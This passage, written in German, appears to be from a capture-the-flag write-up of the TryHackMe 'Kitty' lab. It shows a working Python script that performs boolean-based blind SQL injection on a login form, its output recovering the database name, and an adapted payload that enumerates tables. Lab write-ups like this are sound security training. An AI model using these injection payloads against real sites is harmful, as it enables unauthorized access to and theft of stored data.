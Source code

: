 Die Idee ist quasi den DB-Werte per Scirpt zu brute-forcen

folgendes Basic-Script habe ich verwendet

```
import requests

ip = "kitty.thm"
chars_list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_-/:~$^ "
c = ""

while True:
    for i in chars_list:
        post_data= {"username":f"' UNION SELECT 1,2,3,4 WHERE database() LIKE BINARY '{c+i}%' -- -","password":"test"}
        req = requests.post(f"http://{ip}/index.php", data=post_data,allow_redirects=False)
        status_code=req.status_code
        print(f"{i}", end='\r')
        if status_code == 302:
            c = c+i
            print(f"[+] Updated Result ==> {c}")
            break
        elif i == " " :
            print("\n[+] Injection Finished")
            print(f"[+] Result ==> {c}")
            exit()
```

Folgende DB Information erhalte ich.

```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ python3 exploit.py       
[+] Updated Result ==> m
[+] Updated Result ==> my
[+] Updated Result ==> myw
[+] Updated Result ==> mywe
[+] Updated Result ==> myweb
[+] Updated Result ==> mywebs
[+] Updated Result ==> mywebsi
[+] Updated Result ==> mywebsit
[+] Updated Result ==> mywebsite
 
[+] Injection Finished
[+] Result ==> mywebsite

```

Ok passen wir den query an um mehr Informationen zu erhalten

```
UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' AND table_name LIKE BINARY '{c+i}%' -- -
```
